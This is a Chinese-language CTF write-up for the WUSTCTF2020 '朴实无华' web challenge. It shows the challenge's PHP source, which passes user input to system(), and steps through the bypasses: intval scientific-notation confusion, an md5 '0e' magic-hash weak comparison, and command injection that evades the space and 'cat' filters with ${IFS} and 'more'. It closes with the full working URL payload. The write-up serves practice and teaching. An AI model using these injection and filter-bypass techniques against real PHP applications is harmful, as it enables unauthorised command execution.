 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2021-04-16 15:33:32
categories: ['CTF']
tags: ['RCE']
---
```


进入页面直接报错

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210416103737.png)

试试其他的地方，我的习惯是git泄露、请求头、robots.txt、hint.txt都看看。果然在robots下有内容

> User-agent: *
> Disallow: /fAke_f1agggg.php

访问`fAke_f1agggg.php`并且抓包，在响应头里有提示。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210416105630.png)

访问`fl4g.php`才正式开始，源码如下：

```php
<img src="/img.jpg">
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

一关一关的**bypass**。

第一关

重点在`intval`函数，intval函数有个特性:

>  直到遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时(\0)结束转换

这里需要num的值小于2020，加一后值大于2021，可以使用科学计数法方法绕过。构造payload`2e9`，遇到第一个函数转换时，因为是以2开头下一位是字符，会直接被截取为2；遇到第二个函数，因为使用了`$num + 1`会进行类型转换，2e9会先使用科学计数法计算出值并+1。

第二关

需要一个md5值，对这个值再次使用md5加密以后，使用**弱类型**比较，和原来的值相同。md5的一个弱类型比较绕过：

> PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以“0E”开头的，那么PHP将会认为他们相同，都是0。

使用脚本跑一下得到一个值：`0e215962017`。

最后一层，是一个`system`函数执行，但是在之前有一些过滤

* `strstr`函数匹配空格，可以使用${IFS}绕过（这个里面有更详细的：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)）
* `str_ireplace`会吧cat替换成wctf2020，所以不能使用cat命令，可以用：more、less、od、tail等等绕过，上面的博客里也有写道。

先使用ls查看下当前目录下的文件，发现一个名为`fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`读取得到flag。

最终payload：

```url
/fl4g.php?num=2e9&md5=0e215962017&get_flag=more${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

